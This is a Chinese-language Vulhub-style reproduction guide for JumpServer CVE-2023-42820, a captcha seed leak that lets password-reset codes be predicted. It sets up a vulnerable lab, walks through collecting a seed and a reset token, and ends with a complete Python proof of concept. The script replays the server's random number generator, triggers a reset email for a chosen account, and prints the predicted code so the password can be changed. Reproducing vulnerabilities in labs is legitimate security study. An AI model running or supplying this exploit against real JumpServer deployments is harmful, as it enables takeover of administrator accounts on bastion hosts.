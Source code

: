 # JumpServer 随机数种子泄露导致账户劫持漏洞 CVE-2023-42820

## 漏洞描述

JumpServer是一个开源堡垒机系统。在其3.6.4及以下版本中，存在一处账户接管漏洞。攻击者通过第三方库[django-simple-captcha](https://github.com/mbi/django-simple-captcha)泄露的随机数种子推算出找回密码时的用户Token，最终修改用户密码。

参考链接：

- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-7prv-g565-82qp
- https://mp.weixin.qq.com/s/VShjaDI1McerX843YyOENw
- https://www.leavesongs.com/PENETRATION/jumpserver-sep-2023-multiple-vulnerabilities-go-through.html 

## 环境搭建

Vulhub启动环境前，修改config.env中`DOMAINS`的值为你的IP和端口，如`DOMAINS=your-ip:8080`。

执行如下命令启动一个JumpServer 3.6.3 的服务器：

```
docker compose up -d
```

启动服务需要等待一段时间，之后访问`http://your-ip:8080`即可查看到JumpServer的登录页面。我们使用`admin`作为账号及密码即可登录，第一次登录管理员账号需要修改密码。

![image-20231021145246261](images/image-20231021145246261.png)

## 漏洞复现

使用Vulhub半自动化脚本复现漏洞。由于是半自动化，严格按照如下步骤方可正确复现。

首先，在浏览器第一个Tab中打开忘记密码页面：`http://your-ip:8080/core/auth/password/forget/previewing/`，此时页面上将有一个验证码。

- 如果验证码中包含数字10，则请刷新验证码，因为我们的脚本暂时无法处理数字10
- 如果验证码中不包含数字10，则右键菜单中将该验证码在新Tab下打开

新Tab中验证码的URL类似于`http://your-ip:8080/core/auth/captcha/image/87b2723d404657c2294abfab908975ebb9da5468/`，其中包含该验证码的key（一串sha1 hash值），也就是后面伪随机数使用的种子，记录下这个值作为**seed**。

返回第一个Tab，**刷新页面**。刷新页面的目的是，不使用包含“种子”的验证码，因为这个种子将在后续步骤中使用到。

刷新页面后正确填写用户名和验证码后提交，跳转到验证码验证页面。此时这个页面的URL类似于`http://your-ip:8080/core/auth/password/forgot/?token=sceOx7yWuAH9wWcuzc0nMQmLBzEPNhkhuTfl`，其中包含一个随机的token值，记录下这个值作为**token**。

执行脚本：

```
python poc.py -t http://your-ip:8080 --email admin@whoami.com --seed [seed] --token [token]
```

这个脚本需要传入4个参数：

- `-t` 指定目标JumpServer服务器地址
- `--email` 指定待劫持用户的邮箱地址
- `--seed` 前面记下来的随机数种子（**seed**）
- `--token` 前面记下来的token值（**token**）

> ~~环境启动失败（mariadb redis版本问题，修改版本启动后服务自动退出）。原docker-compose.yml中版本为：mariadb:10.11.5、redis:6.2.13~~
>
> ~~待复现，以下为Vulhub截图。~~

脚本执行后，将输出预测的code值：

![](images/1-16967498267261.png)

回到浏览器中，输入该code提交，即可来到修改新密码页面，修改密码即可。

![](images/2.gif)

## 漏洞POC

```python
import requests
import logging
import sys
import random
import string
import argparse
from urllib.parse import urljoin

logging.basicConfig(stream=sys.stdout, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'


def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
    args_names = ['lower', 'upper', 'digit', 'special_char']
    args_values = [lower, upper, digit, special_char]
    args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
    args_string_map = dict(zip(args_names, args_string))
    kwargs = dict(zip(args_names, args_values))
    kwargs_keys = list(kwargs.keys())
    kwargs_values = list(kwargs.values())
    args_true_count = len([i for i in kwargs_values if i])
    assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
    assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'

    can_startswith_special_char = args_true_count == 1 and special_char

    chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])

    while True:
        password = list(random.choice(chars) for i in range(length))
        for k, v in kwargs.items():
            if v and not (set(password) & set(args_string_map[k])):
                # 没有包含指定的字符, retry
                break
        else:
            if not can_startswith_special_char and password[0] in args_string_map['special_char']:
                # 首位不能为特殊字符, retry
                continue
            else:
                # 满足要求终止 while 循环
                break

    password = ''.join(password)
    return password


def nop_random(seed: str):
    random.seed(seed)
    for i in range(4):
        random.randrange(-35, 35)

    for p in range(int(180 * 38 * 0.1)):
        random.randint(0, 180)
        random.randint(0, 38)


def fix_seed(target: str, seed: str):
    def _request(i: int, u: str):
        logging.info('send %d request to %s', i, u)
        response = requests.get(u, timeout=5)
        assert response.status_code == 200
        assert response.headers['Content-Type'] == 'image/png'

    url = urljoin(target, '/core/auth/captcha/image/' + seed + '/')
    for idx in range(30):
        _request(idx, url)


def send_code(target: str, email: str, reset_token: str):
    url = urljoin(target, "/api/v1/authentication/password/reset-code/?token=" + reset_token)
    response = requests.post(url, json={
        'email': email,
        'sms': '',
        'form_type': 'email',
    }, allow_redirects=False)
    assert response.status_code == 200
    logging.info("send code headers: %r response: %r", response.headers, response.text)


def main(target: str, email: str, seed: str, token: str):
    fix_seed(target, seed)
    nop_random(seed)
    send_code(target, email, token)
    code = random_string(6, lower=False, upper=False)
    logging.info("your code is %s", code)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some integers.')
    parser.add_argument('-t', '--target', type=str, required=True, help='target url')
    parser.add_argument('--email', type=str, required=True, help='account email')
    parser.add_argument('--seed', type=str, required=True, help='seed from captcha url')
    parser.add_argument('--token', type=str, required=True, help='account reset token')

    args = parser.parse_args()
    main(args.target, args.email, args.seed, args.token)
```

